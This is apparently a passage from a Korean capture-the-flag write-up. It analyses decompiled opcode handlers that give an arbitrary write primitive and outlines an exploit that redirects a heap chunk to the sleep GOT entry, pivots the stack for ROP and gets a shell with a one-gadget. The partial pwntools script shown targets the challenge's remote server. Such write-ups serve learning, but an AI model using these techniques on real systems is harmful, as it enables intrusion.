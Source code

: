   ```c
        LODWORD(v47) = opcode_buf->chunk_index2_t * opcode_buf->malloc_size1_t;
        opcode_buf->one_value1_t = v49_t;
        *(_BYTE *)(v48 + (unsigned int)(opcode_buf->chunk_index1_t + v47)) = v49_t; // arbitrary write
        opcode_buf_idx_t = opcode_buf->idx_t;
        opcode_buf_length_ = opcode_buf->opcode_buf_length;
        continue;
  ```
  `v48`에 `chunk`를 받아서 `chunk_index1_t + v47`을 인덱스로 하여 한 바이트씩 값을 쓸 수 있다. `v47`은 `chunk_index2_t * malloc_size1_t`이기 때문에 이어 서술하는 opcode의 기능으로 모두 조작이 가능하다.
- opcode b
  ```c
    case 0xB:
        ...
        opcode_buf->malloc_size1_t = v52_t;
        opcode_buf->malloc_size2_t = v54_t;
        v55 = malloc(v54_t * v52_t);
        old_chunk = (void *)opcode_buf->chunk;
        new_chunk = (__int64)v55;
        ...
  ```
  `v52_t`와 `v54_t`는 사용자 구조체에서 파싱한 값이다. 
- opcode c
  ```c
    case 0xC:
        v44_t = opcode_buf->malloc_size1_t;
        if ( !v44_t )
          goto ABORT;
        v45_t = opcode_buf->malloc_size2_t;
        if ( !v45_t || !opcode_buf->chunk || v44_t <= v43_t || v45_t <= v41_t )
          goto ABORT;                           // malloc_size1 > chunk_index1
                                                // malloc_size2 > chunk_index2
        opcode_buf->chunk_index2_t = v41_t;
        opcode_buf->chunk_index1_t = v43_t;
  ```
  마찬가지로 `v41_t`와 `v43_t`도 파싱된 값이다. 사이즈 검사가 존재하기 때문에 Out of Bound는 발생하지 않는다.

## Exploit
- opcode b, e를 사용하여 sleep_got로 `chunk`를 조작
- 조작된 `chunk`(sleep_got)에 opcode c, d를 사용하여 rop를 진행할 수 있도록 stack pivoting
- 라이브러리 주소를 얻고 one gadget을 이용하여 쉘 획득
  
## Exploit Code
```py
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

e = ELF('./bin')
l = ELF('./libc-2.27.so')
# l = e.libc

gs = '''
b* 0x400c87
'''
# s = process('./bin')
s = remote('prob1.cstec.kr', 5555)

def retry(sell='y'):
    s.sendlineafter(b'(y/n):', sell)

def db(s):
```